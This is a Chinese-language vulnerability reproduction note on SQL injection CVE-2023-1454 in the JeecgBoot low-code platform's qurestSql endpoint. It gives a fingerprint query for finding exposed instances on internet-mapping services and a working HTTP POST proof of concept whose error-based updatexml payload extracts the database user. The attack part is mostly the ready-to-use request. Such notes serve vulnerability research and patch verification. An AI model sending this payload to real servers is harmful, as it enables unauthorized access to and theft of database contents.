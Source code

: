 # JeecgBoot 企业级低代码平台 qurestSql SQL注入漏洞 CVE-2023-1454

## 漏洞描述

JeecgBoot 企业级低代码平台 qurestSql接口存在 SQL注入漏洞，攻击者通过漏洞可以获取服务器数据库中的敏感数据，进一步攻击

## 漏洞影响

<a-checkbox checked>JeecgBoot 企业级低代码平台</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="JeecgBoot-企业级低代码平台"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1682420232051-1d3e49d3-7a22-4d59-ac7c-236c0bf1c43f.png)

验证POC

```php
POST /jeecg-boot/jmreport/qurestSql HTTP/1.1
Content-Type: application/json

{"apiSelectId":"1290104038414721025",
"id":"1' or '%1%' like (updatexml(0x3a,concat(1,(select current_user)),1)) or '%%' like '"}
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1682420079923-7ddb27e1-df81-402f-a87e-7f06c2d119c9.png)